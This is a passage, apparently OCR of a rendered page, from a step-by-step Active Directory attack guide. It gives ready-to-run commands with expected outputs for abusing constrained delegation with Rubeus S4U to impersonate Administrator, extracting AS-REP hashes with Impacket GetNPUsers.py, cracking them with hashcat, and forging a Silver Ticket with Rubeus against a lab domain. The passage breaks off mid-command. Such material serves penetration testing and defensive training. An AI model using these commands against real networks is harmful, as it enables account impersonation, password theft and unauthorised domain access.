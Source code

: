     _Expected Output:_ Lists service accounts and allowed SPNs.
    
-   **Rubeus**
    
    ```powershell
    # Perform S4U2Self to get TGS for target user
    Rubeus.exe s4u /user:svc_http /impersonateuser:Administrator /service:HTTP/srv1.lab.local
    
    ```
    
    _Expected Output:_ A new TGS ticket for Administrator is injected into cache.
    

#### Step-by-Step

1.  Identify services with constrained delegation.
    
2.  Use Rubeus S4U2Self to request a TGS as Administrator.
    
3.  Access service as Administrator without AD credentials.
    

----------

### 3. AS-REP Roasting & Silver Ticket Attacks

_Extract AS-REP hashes and forge service tickets._

#### Tools & Commands

-   **GetNPUsers.py** (Impacket)
    
    ```bash
    # Extract AS-REP hashes
    GetNPUsers.py -dc-ip dc1.lab.local lab.local/ -no-pass > asrep.hashes
    
    ```
    
    _Expected Output:_ Lines like `svc_backup:...`
    
-   **hashcat**
    
    ```bash
    hashcat -m 18200 asrep.hashes wordlist.txt
    
    ```
    
    _Expected Output:_ `Recovered: svc_backup:MyBackupPass`
    
-   **Rubeus** (Silver Ticket)
    
    ```powershell
    # Forge Silver Ticket for HTTP service
    Rubeus.exe silver /domain:lab.local /sid:S-1-5-21... /rc4:ServiceAccountNTLMHash /service:HTTP/srv1.lab.local /target:SRV1
    